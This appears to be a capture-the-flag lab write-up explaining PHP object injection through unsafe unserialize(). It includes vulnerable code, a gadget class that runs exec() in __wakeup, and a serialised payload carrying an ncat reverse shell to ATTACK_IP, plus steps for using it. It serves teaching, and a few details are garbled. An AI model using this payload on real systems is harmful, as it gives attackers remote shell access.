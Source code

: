 Object injection is a vulnerability that arises from insecure data deserialisation in web applications. It occurs when untrusted data is deserialised into an object, allowing attackers to manipulate the serialised data to execute arbitrary code, leading to serious security risks. In this task, we'll explore how object injection works and demonstrate its impact through a simple PHP code snippet.

As we know, the vulnerability arises from the process of serialisation and deserialisation, which allows PHP objects to be converted into a storable format (serialisation) and reconstructed back into objects (deserialisation). While serialisation and deserialisation are useful for data storage and transmission, they can also introduce security risks if not properly implemented.

To exploit a PHP Object Injection vulnerability, the application should include a class featuring a PHP magic method (like `__wakeup` or `__sleep`) that can be exploited for malicious purposes. All classes involved in the attack should be declared before calling the `unserialize()` method (unless object autoloading is supported).

## Example
Let's consider an `index.php` code snippet that shows the serialisation and deserialisation using the `serialize()` and `unserialize()` functions. The code accepts **GET** parameter **decode** or **encode** and converts the user-provided value accordingly.

```php
<?php
class UserData {
    private $data;
    public function __construct($data) {
        $this->data = $data;
    }
..
require 'test.php';

if(isset($_GET['encode'])) {
    $userData = new UserData($_GET['encode']);
    $serializedData = serialize($userData);
    $base64EncodedData = base64_encode($serializedData);
    echo "Normal Data: " . $_GET['encode'] . "<br>";
    echo "Serialized Data: " . $serializedData . "<br>";
    echo "Base64 Encoded Data: " . $base64EncodedData;

} elseif(isset($_GET['decode'])) {
    $base64EncodedData = $_GET['decode'];
    $serializedData = base64_decode($base64EncodedData);
    $test = unserialize($serializedData);
    echo "Base64 Encoded Serialized Data: " . $base64EncodedData . "<br>";
    echo "Serialized Data: " . $serializedData;

...
```

![](Pasted%20image%2020250116210238.png)

We see that the code includes a file called `test.php`. From a source code review or considering whether the framework is open source, the pentester knows that `test.php` contains a class called `MaliciousUserData` as shown below:
```php
<?php
class MaliciousUserData {
public $command = 'ncat -nv ATTACK_IP 10.10.10.1 -e /bin/sh'; // call to troubleshooting server
    
    public function __wakeup() { 
    exec($this->command);
...

?>
```

In the above code, through insecure deserialisation, it's possible to manipulate the properties of an object, including altering the `command` property of the `MaliciousUserData` class in the above code. This can be achieved by crafting a specially crafted serialised string that contains the desired property values. For instance, if we want to modify the `command` property to execute a different command or connect to a different server, we can serialise an object with the desired property value and then inject it into the vulnerable `unserialize()` function. This way, upon deserialisation, the manipulated property value will be loaded into the object.

It is important to understand that during insecure deserialisation, you can't directly update the definition of the `__wakeup` method itself. The `__wakeup` method is a part of the class definition and remains static during the deserialisation process. However, what you can do is modify the behavior or properties of the object within the `__wakeup` method. This means that while the method's definition remains constant, its actions upon deserialisation can be manipulated to achieve different outcomes.

## Payload
As discussed earlier, calling another class is a normal feature in PHP, and you can view the code of that file if the target website is using open-source code. The code in `index.php` blindly unserialises the input without performing any sanitisation. What is the option here? What if we modify the class `MaliciousUserData` and modify its `command` attribute such that when the `__wakeup` function is called, it will be called with the attacker-provided value?

Let's create some PHP code on our machine that generates malicious serialised user data.
```php
<?php
class MaliciousUserData {
public $command = 'ncat -nv ATTACK_IP 4444 -e /bin/sh';
}

$maliciousUserData = new MaliciousUserData();
$serializedData = serialize($maliciousUserData);
$base64EncodedData = base64_encode($serializedData);
echo "Base64 Encoded Serialized Data: " . $base64EncodedData;
?>
```

- In the above code, the `_wakeup()` function of `MaliciousUserData` class (`test.php`) will execute a reverse shell command using Ncat to connect to the specified IP address (`ATTACK_IP`) and port (`4444`) with the -e flag to execute `/bin/sh` as a shell
- Once you create the file, execute it through `php index.php` through the terminal. This will return a base64-encoded serialised object of the `MaliciousUserData` class.
- The generated base64 encoded string would look like this: `TzoxNzoiTWFsaWNp[Redacted]`.  
- Start the Netcat listener on port 4444 using the command `nc -nvlp 4444` on the AttackBox.
- Now, it's time to exploit the insecure deserialisation by decoding the shellcode by visiting the URL `http://10.10.225.40/case2/?decode=[SHELLCODE]` without generating the shellcode.  
- Once you visit the URL, the index.php file's deserialise function will deserialise the string and execute the `__wakeup()` function, leading to a remote shell.